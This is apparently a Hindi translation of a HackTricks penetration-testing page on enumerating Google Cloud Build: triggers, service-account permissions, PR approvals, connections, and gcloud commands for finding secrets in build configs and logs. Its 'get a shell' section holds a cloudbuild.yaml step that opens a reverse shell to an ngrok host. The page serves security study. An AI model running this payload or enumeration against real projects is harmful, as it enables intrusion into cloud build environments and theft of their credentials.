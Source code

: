 # GCP - Cloud Build Enum

<details>

<summary><strong>जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* अगर आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks swag**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>

## मूल जानकारी

Google Cloud Build एक प्रबंधित CI/CD प्लेटफ़ॉर्म है जो **सॉफ़्टवेयर निर्माण** और रिलीज प्रक्रियाओं को **स्वचालित करता है**, **स्रोत कोड भंडारों** के साथ एकीकरण करता है और विभिन्न प्रोग्रामिंग भाषाओं का समर्थन करता है। यह **डेवलपरों को कोड को स्वचालित रूप से निर्माण, परीक्षण और डिप्लॉय** करने की अनुमति देता है जबकि निर्माण चरणों और कार्यप्रवाहों को अनुकूलित करने की लचीलाता प्रदान करता है।

प्रत्येक Cloud Build Trigger **एक Cloud Repository से संबंधित है या सीधे एक बाह्य रिपॉजिटरी** (Github, Bitbucket और Gitlab) से कनेक्ट किया गया है।

{% hint style="success" %}
मैंने यहाँ से या Cloud Repositories से **Github/Bitbucket टोकन चुराने का कोई तरीका नहीं देखा** क्योंकि जब रेपो डाउनलोड किया जाता है तो इसे [https://source.cloud.google.com/](https://source.cloud.google.com/) URL के माध्यम से एक्सेस किया जाता है और Github क्लाइंट द्वारा एक्सेस नहीं किया जाता है।
{% endhint %}

### घटनाएँ

Cloud Build को निम्नलिखित की गई स्थितियों में ट्रिगर किया जा सकता है:

* **एक शाखा में पुश**: शाखा निर्दिष्ट करें
* **नया टैग पुश**: टैग निर्दिष्ट करें
* **पुल अनुरोध**: पीआर प्राप्त करने वाली शाखा निर्दिष्ट करें
* **मैन्युअल आवाहन**
* **Pub/Sub संदेश**: विषय निर्दिष्ट करें
* **वेबहुक घटना**: एक HTTPS URL उजागर करेगा और अनुरोध को एक गुप्त से प्रमाणित करना होगा

### क्रियान्वयन

3 विकल्प हैं:

* एक yaml/json **निर्देशित करने वाले कमांड** को निष्पादित करना। सामान्यत: `/cloudbuild.yaml`
* केवल एक जो वेब कांसोल और cli में "इनलाइन" निर्दिष्ट किया जा सकता है
* सबसे सामान्य विकल्प
* अनधिकृत एक्सेस के लिए महत्वपूर्ण
* एक **Dockerfile** को निर्माण करने के लिए
* एक **Buildpack** को निर्माण करने के लिए

### SA अनुमतियाँ

**सेवा खाता में `cloud-platform` scope है**, इसलिए यह **सभी विशेषाधिकारों का उपयोग कर सकता है।** यदि **कोई SA निर्दिष्ट नहीं किया गया है** (जैसे कि सबमिट करते समय) तो **डिफ़ॉल्ट SA** `<proj-number>@cloudbuild.gserviceaccount.com` का उपयोग होगा।**

डिफ़ॉल्ट रूप से कोई अनुमतियाँ नहीं दी गई हैं लेकिन इसे कुछ देना बहुत आसान है:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### मंजूरी

एक Cloud Build को **निर्माण क्रियाओं के लिए मंजूरी की आवश्यकता** को कॉन्फ़िगर किया जा सकता है (डिफ़ॉल्ट रूप से अक्षम है)।

### पीआर मंजूरियाँ

जब ट्रिगर पीआर होता है क्योंकि **किसी भी व्यक्ति को सार्वजनिक रिपॉजिटरी में पीआर करने की अनुमति है**, तो किसी भी पीआर के साथ **ट्रिगर का केवल स्वामी और सहयोगी द्वारा स्वचालित होना बहुत खतरनाक हो सकता है**। इसलिए, डिफ़ॉल्ट रूप से, केवल मालिकों और सहयोगियों के लिए क्रियान्वित होगा, और अन्य उपयोगकर्ताओं की पीआर के साथ ट्रिगर को निष्पादित करने के लिए एक मालिक या सहयोगी को `/gcbrun` टिप्पणी करनी होगी।

<figure><img src="../../../.gitbook/assets/image (150).png" alt="" width="563"><figcaption></figcaption></figure>

### कनेक्शन और रिपॉजिटरी

कनेक्शन निम्नलिखित के माध्यम से बनाए जा सकते हैं:

* **GitHub:** यह एक OAuth प्रॉम्प्ट दिखाएगा जिसमें अनुमतियाँ मांगी जाएंगी ताकि **एक Github टोकन प्राप्त किया जा सके** जो **सीक्रेट मैनेजर** में स्टोर किया जाएगा।
* **GitHub Enterprise:** यह एक **GithubApp** स्थापित करने के लिए कहेगा। आपके GitHub Enterprise होस्ट से एक प्रमाणीकरण टोकन बनाया जाएगा और इस परियोजना में एक **सीक्रेट मैनेजर** सीक्रेट के रूप में स्टोर किया जाएगा।
* **GitLab / Enterprise:** आपको **API एक्सेस टोकन और पढ़ने के लिए API एक्सेस टोकन** प्रदान करना होगा जो **सीक्रेट मैनेजर** में स्टोर किया जाएगा।

एक कनेक्शन उत्पन्न होने के बाद, आप इसे उपयोग कर सकते हैं **जिसमें Github खाते का एक्सेस हैं**।

यह विकल्प बटन के माध्यम से उपलब्ध है:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
ध्यान दें कि इस तरीके से कनेक्ट किए गए रिपॉजिटरी **केवल 2वीं पीढ़ी का उपयोग करने वाले ट्रिगर में ही उपलब्ध हैं।**
{% endhint %}

### रिपॉजिटरी कनेक्ट करें

यह **`कनेक्शन`** के समान नहीं है। यह **एक गिटहब या बिटबकेट** रिपॉजिटरी तक पहुंचने के **विभिन्न** तरीके हैं लेकिन **कनेक्शन ऑब्जेक्ट उत्पन्न नहीं करता है, लेकिन यह पहली पीढ़ी का रिपॉजिटरी ऑब्ज
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
एक स्टोरेज बकेट नामक [security-devbox\_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox\_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false\&project=security-devbox) बनाया गया है ताकि इसमें उपयोग के लिए फ़ाइलों के साथ `.tgz` स्टोर किया जा सके।

### शैल को प्राप्त करें
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
**ग्क्लाउड** को स्थापित करें **क्लाउड बिल्ड** के अंदर:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### जांच

आप **बिल्ड कॉन्फ़िग और लॉग में संवेदनशील जानकारी** पा सकते हैं।
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### विशेषाधिकार उन्नयन

{% content-ref url="../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md" %}
[gcp-cloudbuild-privesc.md](../../gcp-security/gcp-privilege-escalation/gcp-cloudbuild-privesc.md)
{% endcontent-ref %}

### अप्रमाणित पहुंच

{% content-ref url="../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md" %}
[gcp-cloud-build-unauthenticated-enum.md](../../gcp-security/gcp-unaunthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md" %}
[gcp-cloud-build-post-exploitation.md](../../gcp-security/gcp-post-exploitation/gcp-cloud-build-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें** हैकिंग ट्रिक्स और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
